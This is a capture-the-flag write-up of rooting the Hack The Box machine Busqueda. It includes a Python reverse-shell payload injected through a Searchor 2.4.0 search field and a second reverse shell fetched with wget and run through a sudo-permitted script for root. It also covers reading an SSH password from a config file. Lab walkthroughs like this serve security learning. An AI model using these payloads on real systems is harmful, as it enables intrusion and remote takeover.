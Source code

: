 ## Busqueda Writeup -- HackTheBox ##
  
**This is a walkthrough to get root access on a Linux machine called Busqueda from Hack The Box**
• Add the IP address of the machine from Hack the Box website to your hosts file 

**sudo gedit /etc/hosts**

![image](https://github.com/MohamedKhaled7/Busqueda---HackTheBox/assets/58820314/dee050f3-0dc5-41de-8e11-6f334472570f)


• Next step is to doing scanning for open ports and for service version using nmap and the command: **nmap -sV -A -T4 10.10.11.208**


![image](https://github.com/MohamedKhaled7/Busqueda---HackTheBox/assets/58820314/ee5d7dd3-5546-4e8e-ad6d-37ca2851bc2a)

• as we noticed that two  ports (80, 22) are open, let's try to open the IP on the browser

![image](https://github.com/MohamedKhaled7/Busqueda---HackTheBox/assets/58820314/5bea92a6-0c2c-41e4-99cb-57ffc6bf5013)

• it is noticed at the bottom of the web page a version Searchor 2.4.0, let's try to find the exploit for it 

after searching on Google, it is found that the URL: https://github.com/nexis-nexis/Searchor-2.4.0-POC-Exploit- have the exploit code to receive an initial shell 

• put the exploit on the filed   
', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.14.144',1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))#

![image](https://github.com/MohamedKhaled7/Busqueda---HackTheBox/assets/58820314/c6a5eca0-9522-4ef1-a94b-590f602d7429)


• on the same time open a listener using netcat with the command  nc -nlvp 1234,  press the search button and the initial shell will be as shown 

![image](https://github.com/MohamedKhaled7/Busqueda---HackTheBox/assets/58820314/4fd8f83d-e17d-4a62-aff6-aae9fc2d76a5)

• to obtain the first flag, go to home directory and display the content of the user.txt and you will get the first flag as shown 

![image](https://github.com/MohamedKhaled7/Busqueda---HackTheBox/assets/58820314/52e3fe7b-48be-4a72-9a08-ebf414e7b0c0)

• after enumeration, go through the folder  **cd /var/www/app**, display the content of the file config  **cat config** and the password for accessing  the server with SSH is showing 
 
![image](https://github.com/MohamedKhaled7/Busqueda---HackTheBox/assets/58820314/3b23308f-bc77-49b6-950c-17d4573e391c)

• connect to the web server with SSH to get an interactive and stable shell 

![image](https://github.com/MohamedKhaled7/Busqueda---HackTheBox/assets/58820314/07ace5e3-0083-427b-8172-68e678f3733a)

• enumeration to get a root shell, you will find docker-inspect, and try to get a code from Google to get the high privilege, with the help of this 
URL:  https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/python-privilege-escalation/   
with the code: import socket,os,pty;s=socket.socket();s.connect(("<local-ip>",4444));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")
after putting the code in a Python file with the name **full-checkup.sh** and opening a Python server to send the file from my local machine to the web server with the command 
└─$ **python -m http.server 80**, and on our shell use the command **wget://10.10.14.144:80/full-checkup.sh** to receive the file 

![image](https://github.com/MohamedKhaled7/Busqueda---HackTheBox/assets/58820314/69027e08-1198-4a29-b358-4fc605b0eb21)

![image](https://github.com/MohamedKhaled7/Busqueda---HackTheBox/assets/58820314/90860dd7-6e1c-4fe7-af41-37f64533edbc)

• after receiving the file change the mod by command **chmod +x full-checkup.sh** 
![image](https://github.com/MohamedKhaled7/Busqueda---HackTheBox/assets/58820314/a9bf3e06-475a-4c16-98a4-a6be25f2e09d)

• open a listener to listen on port 4444 with netcat  nc -nlvp 4444 

• run the following command to receive the root shell 

sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup

![image](https://github.com/MohamedKhaled7/Busqueda---HackTheBox/assets/58820314/f218f1be-171d-4b0f-aa55-a5ca58307e2f)

• we get the root flag and root access on the machine 










